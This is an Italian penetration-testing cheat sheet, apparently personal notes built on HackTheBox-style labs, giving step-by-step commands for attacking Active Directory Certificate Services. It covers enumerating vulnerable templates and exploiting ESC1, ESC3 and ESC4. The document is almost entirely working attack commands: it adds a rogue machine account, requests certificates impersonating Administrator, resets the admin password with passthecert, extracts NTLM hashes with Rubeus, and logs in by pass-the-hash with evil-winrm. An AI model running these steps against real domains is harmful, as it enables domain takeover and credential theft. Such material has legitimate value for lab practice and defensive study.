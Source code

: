### **ENUMERAZIONE**
Cerca un template vulnerabile
```bash
certipy-ad find -u <USER> -p <PASS> -dc-ip <IP> -vulnerable -stdout
```
```powershell
./Certify.exe find /vulnerable
```
![[Pasted image 20230719143059.png]]
### **EXPLOIT ESC 1**
Hai la possibilità di enroll

```bash
impacket-addcomputer  <DOMINIO>/<USER>:'<PASS>' -computer-name testComputer2$ -computer-pass TestPassword321
```
![[Pasted image 20230719143908.png]]
controllo se è stato creato
```bash
crackmapexec smb <IP> -u 'testComputer2$' -p 'TestPassword321' -d <DOMINIO>
```
![[Pasted image 20230719150304.png]]
Generiamo un certificato per l'account appena creatp
```bash
certipy req -u 'testComputer2$' -p 'TestPassword321' -dc-ip IP_DC_HERE -ca AUTHORITY-CA -template '<TEMPLATE>' -upn 'Administrator'
```
![[Pasted image 20230719150515.png]]
Ora dividi il certificato
```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
certipy cert -pfx administrator.pfx -nocert -out user.key
```
Usa il seguente tool per accere con il certificato
[PassTheCert/Python at main · AlmondOffSec/PassTheCert · GitHub](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)
```bash
python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip IP_DC_HERE -target administrator -new-pass
```
![[Pasted image 20230719150944.png]]
Entra con evil-winrm
### **EXPLOIT ESC 3**
Richiedi il certificato
```BASH
certipy-ad req -username <USER>@<IP> -password <PASS> -ca <NOME-CA> -target <NOME MACCHINA> -template <TEMPLATE LOCALE> -upn <USER DA PRENDERE>@<IP> -dns <NOME MACCHINA> -debug
```
```POWERSHELL
Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:<TEMPLATE VULNERABILE> /altname:<TEMPLATE DA PRENDERE>
```
converti chiave e certificato in formato pfx12
```bash
openssl pkcs12 -in cert.pem -inkey private.key -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Carica rubeus e il cert.pfx sulla macchina e prendi l'hash ntlm
```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
![[Pasted image 20230719143559.png]]
Usa l'hash per loggare tramite evil-winrm
```bash
evil-winrm -i 10.10.11.202 -u Administrator -H <HASH>
```
### **ESC 4 - ADCS**
Grazie al permesso genericWrite possiamo modificare il nostro template per renderlo vulnerabile all'ESC1
```bash
certipy-ad template -u <USER>@<DOMAIN -p 'horse' -template ESC4 -save-old -debug
```
![[Pasted image 20230828151521.png]]
Poi exploitalo come ESC1.
Per riportarlo alla normalità
```bash
certipy-ad template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
```
![[Pasted image 20230828151547.png]]